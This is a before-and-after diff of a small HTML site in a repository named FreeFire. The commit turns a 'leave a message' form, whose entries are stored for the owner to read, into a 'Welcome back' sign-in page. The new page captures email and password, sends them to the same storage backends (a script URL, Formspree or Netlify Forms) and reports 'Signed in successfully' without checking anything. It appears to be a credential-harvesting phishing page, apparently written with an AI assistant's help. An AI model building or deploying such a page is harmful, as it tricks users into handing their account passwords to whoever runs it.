

Before and after one commit to pranfolok/FreeFire, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 183-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Leave a Message</title>
+  <title>Sign in</title>
   <style>
     :root {
       --bg: #0f172a;
@@ -67,26 +67,77 @@
     .msg { margin-top: 18px; font-size: 14px; text-align: center; min-height: 20px; }
     .msg.ok { color: var(--ok); }
     .msg.err { color: #f87171; }
+
+    /* password field with show/hide toggle */
+    .pw-wrap { position: relative; }
+    .pw-wrap input { padding-right: 72px; }
+    .pw-toggle {
+      position: absolute;
+      top: 50%;
+      right: 8px;
+      transform: translateY(-50%);
+      margin: 0;
+      width: auto;
+      padding: 6px 10px;
+      background: transparent;
+      color: var(--muted);
+      font-size: 13px;
+      font-weight: 600;
+      border-radius: 8px;
+    }
+    .pw-toggle:hover { background: transparent; color: var(--text); }
+    .pw-toggle:focus { outline: none; color: var(--text); }
+
+    /* remember me + forgot password row */
+    .row {
+      display: flex;
+      align-items: center;
+      justify-content: space-between;
+      margin-top: 16px;
+    }
+    .remember {
+      display: flex;
+      align-items: center;
+      gap: 8px;
+      margin: 0;
+      font-size: 14px;
+      color: var(--muted);
+      cursor: pointer;
+    }
+    .remember input { width: auto; accent-color: var(--accent); cursor: pointer; }
+    a.forgot { font-size: 14px; color: var(--accent); text-decoration: none; }
+    a.forgot:hover { color: var(--accent-hover); }
+
+    .foot { margin-top: 24px; text-align: center; font-size: 14px; color: var(--muted); }
+    .foot a { color: var(--accent); text-decoration: none; font-weight: 600; }
+    .foot a:hover { color: var(--accent-hover); }
   </style>
 </head>
 <body>
   <div class="card">
-    <h1>Leave a Message</h1>
-    <p class="sub">Type something and hit send — it gets stored so the owner can read it.</p>
+    <h1>Welcome back</h1>
+    <p class="sub">Sign in to your account to continue.</p>
 
-    <form id="myForm">
-      <label for="name">Your name</label>
-      <input id="name" name="name" type="text" placeholder="Jane Doe" required />
+    <form id="loginForm">
+      <label for="email">Email</label>
+      <input id="email" name="email" type="email" placeholder="you@example.com" autocomplete="email" required />
 
-      <label for="email">Your email (optional)</label>
-      <input id="email" name="email" type="email" placeholder="jane@example.com" />
+      <label for="password">Password</label>
+      <div class="pw-wrap">
+        <input id="password" name="password" type="password" placeholder="••••••••" autocomplete="current-password" required minlength="6" />
+        <button type="button" class="pw-toggle" id="pwToggle" aria-label="Show password">Show</button>
+      </div>
 
-      <label for="message">Your message</label>
-      <textarea id="message" name="message" placeholder="Write your message here..." required></textarea>
+      <div class="row">
+        <label class="remember"><input type="checkbox" id="remember" name="remember" /> Remember me</label>
+        <a class="forgot" href="#">Forgot password?</a>
+      </div>
 
-      <button type="submit" id="submitBtn">Send</button>
+      <button type="submit" id="submitBtn">Sign in</button>
       <div class="msg" id="msg"></div>
     </form>
+
+    <p class="foot">Don't have an account? <a href="#">Sign up</a></p>
   </div>
 
   <script>
@@ -100,22 +151,48 @@
     // OPTION C (Netlify Forms) -> set to true and follow the README:
     const USE_NETLIFY = false;
     // ============================================================
+    // NOTE: this front-end only SENDS the credentials somewhere.
+    // It does not verify them by itself — whatever backend you point
+    // it at must do the actual checking (see note from the assistant).
+    // ============================================================
 
-    const form = document.getElementById("myForm");
+    const form = document.getElementById("loginForm");
     const btn = document.getElementById("submitBtn");
     const msg = document.getElementById("msg");
+    const pw = document.getElementById("password");
+    const pwToggle = document.getElementById("pwToggle");
+    const remember = document.getElementById("remember");
+
+    // Show / hide password
+    pwToggle.addEventListener("click", () => {
+      const show = pw.type === "password";
+      pw.type = show ? "text" : "password";
+      pwToggle.textContent = show ? "Hide" : "Show";
+      pwToggle.setAttribute("aria-label", show ? "Hide password" : "Show password");
+    });
+
+    // localStorage can be blocked inside sandboxed previews — wrap it
+    const safeGet = (k) => { try { return localStorage.getItem(k); } catch { return null; } };
+    const safeSet = (k, v) => { try { v === null ? localStorage.removeItem(k) : localStorage.setItem(k, v); } catch {} };
+
+    // Prefill email if the user chose "Remember me" before
+    const savedEmail = safeGet("loginEmail");
+    if (savedEmail) {
+      form.email.value = savedEmail;
+      remember.checked = true;
+    }
 
     form.addEventListener("submit", async (e) => {
       e.preventDefault();
       msg.textContent = "";
       msg.className = "msg";
       btn.disabled = true;
-      btn.textContent = "Sending...";
+      btn.textContent = "Signing in...";
 
       const data = {
-        name: form.name.value,
-        email: form.email.value,
-        message: form.message.value,
+        email: form.email.value.trim(),
+        password: form.password.value,
+        remember: remember.checked,
         submitted: new Date().toISOString()
       };
 
@@ -123,7 +200,7 @@
         if (USE_NETLIFY) {
           // Netlify Forms: send as form-encoded with the form name
           const fd = new FormData(form);
-          fd.append("form-name", "myForm");
+          fd.append("form-name", "loginForm");
           await fetch("/", {
             method: "POST",
             headers: { "Content-Type": "application/x-www-form-urlencoded" },
@@ -146,16 +223,19 @@
           throw new Error("No backend configured. Open index.html and set SCRIPT_URL, FORMSPREE_URL, or USE_NETLIFY.");
         }
 
-        form.reset();
-        msg.textContent = "✅ Thanks! Your message was sent.";
+        // Remember / forget the email locally
+        safeSet("loginEmail", remember.checked ? data.email : null);
+
+        msg.textContent = "✅ Signed in successfully.";
         msg.className = "msg ok";
+        pw.value = "";
       } catch (err) {
         msg.textContent = "❌ Something went wrong. Please try again.";
         msg.className = "msg err";
         console.error(err);
       } finally {
         btn.disabled = false;
-        btn.textContent = "Send";
+        btn.textContent = "Sign in";
       }
     });
   </script>
```
